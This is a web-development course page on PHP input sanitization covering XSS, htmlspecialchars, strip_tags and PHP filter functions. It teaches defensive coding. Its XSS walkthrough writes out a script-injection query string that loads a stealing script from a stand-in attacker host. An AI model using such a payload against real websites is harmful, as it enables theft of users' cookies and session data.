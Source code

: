 ```yaml
---
layout: base
title: PHP - Sanitization
course: SDEV255
---
```


- [Sanitization](#sanitization)
  - [Validation vs Sanitization](#validation-vs-sanitization)
  - [Purpose of Sanitization](#purpose-of-sanitization)
  - [Escaping Values](#escaping-values)
    - [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
      - [How XSS Works](#how-xss-works)
      - [XSS Example](#xss-example)
    - [htmlspecialchars()](#htmlspecialchars)
  - [Removing Unwanted Values](#removing-unwanted-values)
    - [trim()](#trim)
    - [strip_tags()](#strip_tags)
  - [Filter Functions](#filter-functions)
    - [Validate Filters](#validate-filters)
    - [Sanitize Filters](#sanitize-filters)
    - [Filtering a Single Value](#filtering-a-single-value)
    - [Sanitizing a Single Value](#sanitizing-a-single-value)
    - [Filter Flags and Options](#filter-flags-and-options)
    - [Filtering a Single Value with Options](#filtering-a-single-value-with-options)
    - [Filtering Multiple Values](#filtering-multiple-values)
    - [Demos - Complete Form Validation with Filters](#demos---complete-form-validation-with-filters)
  - [Topics for Later](#topics-for-later)

# Sanitization

## Validation vs Sanitization

**Validation** - is the process of ensuring that the input matches the expected format, range, type, length, etc.

**Sanitization** - is the process of removing unwanted characters, whitespace, HTML tags, etc.

## Purpose of Sanitization

- Prevents malicious code from being injected into application
- Prevents unwanted characters from being
  - Displayed to the user
  - Stored in database
  - Stored in files
  - Sent to other applications

## Escaping Values

**Escaping** - is the process of converting special characters to their HTML entity equivalents.

### Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** - is a type of injection attack where malicious scripts are injected into trusted websites.

The scripts may then:

- Steal cookies and session tokens
- Redirect the user to another website
- Send content to other applications

#### How XSS Works

1. Hacker visits a website and probes for query string vulnerabilities.
<figure>
    <span>
        <img src="images/hacker.jpg" style="width:40%;">
    </span>
</figure>

2. Hacker finds query string named `q` is not sanitized.

3. Hacker tricks other people into visiting website with following query string: `q=<script src=http://really-terrible-site/steal-data.js></script>`

4. JS file runs on victim's browser and sends data to hacker's website.

5. Hacker sells data on the dark web and buys yacht.

<figure>
    <span>
        <img src="https://media.boatsnews.com/src/images/news/articles/ima-computer-science-screen-37738.webp" style="width:40%">
    </span>
</figure>

#### XSS Example

<p class="demo">Walkthrough</p>

[Text: Example of an XSS Attack](http://localhost/phpbook/section_b/c06/)

### htmlspecialchars()

- Converts special characters to HTML entities
- May optionally specify which characters to convert and the character encoding

```php
$input = '<script>alert("XSS");</script>';
<p><?php echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8'); ?></p
```

## Removing Unwanted Values

### trim()

- Removes whitespace from beginning and end of a string
- May optionally specify which characters to remove

```php
$cleanedInput = trim($userInput);
```

### strip_tags()

- Removes HTML tags from a string
- May optionally specify which tags to allow

```php
$cleanedInput = strip_tags($userInput);
```

## Filter Functions

PHP has built-in functions for validating and sanitizing input.

### Validate Filters

Validate filters are used to validate input.

See [PHP: Validate filters](https://www.php.net/manual/en/filter.filters.validate.php)

### Sanitize Filters

Sanitize filters are used to remove unwanted characters.

See [PHP: Sanitize filters](https://www.php.net/manual/en/filter.filters.sanitize.php)

### Filtering a Single Value

```php
// Will return false if value is not valid
$email = filter_input(INPUT_POST, 'email', FILTER_VALIDATE_EMAIL);
```

### Sanitizing a Single Value

```php
// Same effect as htmlspecialchars() with ENT_QUOTES flag
$filtered = filter_input(INPUT_POST, 'val', FILTER_SANITIZE_FULL_SPECIAL_CHARS);
```

### Filter Flags and Options

- Filter flags and options are used to specify how the filter should behave.
- Flags are predefined constants that can be combined using the bitwise OR operator `|`.
- Options are key/value pairs that are passed in an array.
- See [PHP: Filter Flags](https://www.php.net/manual/en/filter.filters.flags.php)

### Filtering a Single Value with Options

```php
// Build options array
$settings['flags']                = FILTER_FLAG_ALLOW_HEX;       // Allow hex flag
$settings['options']['default']   = 0;                           // Default value
$settings['options']['min_range'] = 0;                           // Min number option
$settings['options']['max_range'] = 255;                         // Max number option

// Will return false if value is not between 0 and 255
$number = filter_input(INPUT_POST, 'number', FILTER_VALIDATE_INT, $settings);
```

### Filtering Multiple Values

- We often want to filter multiple values at once, as in the case of a form submission.

```html
<form action="process.php" method="post">
  <input type="text" name="email" />
  <input type="text" name="age" />
  <input type="checkbox" name="terms" />
  <input type="submit" />
</form>
```

```php
// Build filters array
$filters['email']                       = FILTER_VALIDATE_EMAIL;   // Email filter
$filters['age']['filter']               = FILTER_VALIDATE_INT;     // Integer filter
$filters['age']['options']['min_range'] = 16;                      // Min age
$filters['terms']                       = FILTER_VALIDATE_BOOLEAN; // Boolean filter

$form = filter_input_array(INPUT_POST, $filters);                  // Apply filters
var_dump($form);                                                   // Display results
```

### Demos - Complete Form Validation with Filters

<p class="demo">Walkthrough</p>

[Text: Validate Form Using Filters](http://localhost/phpbook/section_b/c06/validate-form-using-filters.php)

## Topics for Later

We have not covered these yet, but santization is also important for:

- Database queries
- File uploads
